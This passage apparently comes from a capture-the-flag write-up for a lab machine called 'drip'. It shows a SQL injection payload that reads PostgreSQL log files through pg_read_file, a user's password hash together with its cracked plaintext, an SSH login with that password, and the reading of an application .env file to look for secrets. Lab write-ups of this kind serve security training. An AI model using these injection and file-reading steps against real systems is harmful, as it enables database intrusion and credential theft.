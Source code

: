 Let's check the old version of log files
`''; SELECT pg_read_file('/var/log/postgresql/postgresql-15-main.log.1', 0,
10000000);`
![](images/Pasted%20image%2020250310125902.png)
Then we can get the hash of user `ebelford`
`8bbd7f88841b4223ae63c8848969be86`
From the crackstation, we can get the cracked hash `8bbd7f88841b4223ae63c8848969be86:ThePlague61780`

Let's use ssh to connect it and then we can handle the shell as `ebelford`
`ssh ebelford@10.10.11.54`   (`ebelford:ThePlague61780`)

# Switch to user postgres
In the `/var/backups` directory we find backups from `postgres` from the database user:
```
$ ls -la /var/backups | grep postgres
drwx------ 2 postgres postgres 4096 Feb 5 1252 postgres
```

Let's try to switch into `postgres` user
I can get something useful from `/var/www/html/dashboard/.env`
```
ebelford@drip:/var/www/html/dashboard$ cat .env
# True for development, False for production
DEBUG=False

# Flask ENV
FLASK_APP=run.py
FLASK_ENV=development

# If not provided, a random one is generated 
# SECRET_KEY=<YOUR_SUPER_KEY_HERE>

# Used for CDN (in production)
```